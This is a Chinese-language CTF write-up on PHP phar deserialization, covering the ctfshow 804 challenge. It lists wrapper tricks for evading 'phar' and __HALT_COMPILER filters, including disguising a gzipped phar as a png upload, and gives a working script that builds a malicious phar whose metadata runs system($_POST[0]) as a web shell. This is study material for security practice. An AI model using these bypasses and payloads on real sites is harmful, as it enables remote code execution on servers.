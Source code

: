 > // Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。
> 可以使用compress.bzip2://和compress.zlib://绕过 
> compress.bzip://phar:///test.phar/test.txt 
> compress.bzip2://phar:///home/sx/test.phar/test.txt 
> compress.zlib://phar:///home/sx/test.phar/test.txt 
> php://filter/resource=phar:///test.phar/test.txt // 
> 还可以使用伪协议的方法绕过 php://filter/read=convert.base64-encode/resource=phar://phar.phar

绕过__HALT_COMPILER特征检测

```php
if (preg_match("/</?|php|HALT_COMPILER/i",$filename){
    die();
}
```

将 phar 文件使用 gzip 命令进行压缩，可以看到压缩之后的文件中就没有了`__HALT_COMPILER()`，将 phar.gz 后缀改为 png（png文件可以上传），文件上传成功后，利用文件包含漏洞包含文件

## ctfshow 804

```php
class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}

$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file)){
        unlink($file);
    }else{
        file_put_contents($file,$content);
    }
}
```

题目中有可利用的类，并且没有unserialize，有unlink、file_put_contents，联想到phar反序列化

```php
<?php
class hacker{
    public $code;
}
$a=new hacker();
$a->code='system($_POST[0]);';
$phar = new phar("evil.phar");
$phar->startBuffering();
$phar->setMetadata($a);
$phar -> setStub('<?php __HALT_COMPILER();?>');
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

